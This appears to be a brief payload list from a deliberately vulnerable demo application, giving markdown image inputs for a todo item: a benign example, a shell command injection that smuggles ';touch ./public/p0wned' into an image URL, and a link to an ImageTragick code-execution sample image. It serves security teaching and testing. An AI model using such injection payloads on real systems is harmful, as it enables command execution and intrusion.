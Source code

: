 ### Example
```markdown
![alt text](https://raw.githubusercontent.com/Snyk/goof/feat/oreilly/exploits/snyk.png "Image todo item")
```

### Shell Command Injection
```markdown
![alt text](https://raw.githubusercontent.com/Snyk/goof/feat/oreilly/exploits/snyk.png;touch ./public/p0wned "Image todo item")
```

### Code Execution - ImageTragick vulnerability
```markdown
![alt text](https://raw.githubusercontent.com/Snyk/node-imagemagick/master/sample-images/imagetragick_rce1.png "Image todo item")
```





